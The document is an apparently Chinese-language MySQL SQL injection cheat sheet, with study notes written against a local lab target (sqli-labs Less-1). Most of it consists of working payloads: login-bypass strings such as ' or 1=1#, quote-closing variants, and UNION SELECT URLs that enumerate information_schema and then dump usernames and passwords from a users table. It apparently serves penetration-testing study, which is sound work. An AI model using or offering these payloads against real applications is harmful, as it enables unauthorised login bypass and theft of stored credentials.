 # Mysql

## 万能密码测试

- ' or 1=1#

## 判断语句

- or 1=1--+
- 'or 1=1--+
- "or 1=1--+
- )or 1=1--+
- ')or 1=1--+
- ") or 1=1--+
- "))or 1=1--+

此处的`--`为注释，+为占位，也可以通过%20(空格的URL编码)来替代，因为地址栏空格不会进入mysql语句，或者可以直接用%23（#）进行注释

## Information_schema

### 三个常用表

#### Schemata

SCHEMA_NAME:数据库名

#### tables

TABLE_SCHEMA:数据库名

TABLE_NAME:表名

#### columns

TABLE_SCHEMA:数据库名

TABLE_NAME:表名

COLUMN_NAME:字段名

### 爆数据库(schemata)

```
http://192.168.154.131/sqli/Less-1/?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata--+
```

数据库名.表名：information_schema.schemata

### 爆表名(tables)

```
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+
```

where 之后的条件用来筛选选中的数据库

table_schema为数据库名

table_name为表名

### 爆字段(columns)

```
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
```

### 爆数据

由上面的处理已知存在数据表users,users下有username和password两个字段

所以可以构造语句

```
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(username),group_concat(password) from users--+
```

查询所有结果或者通过id来查询指定的结果

```
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,username,password from users where id=2--+
```

## 常用函数

group_concat(schema_name)可以查出所有的数据库名



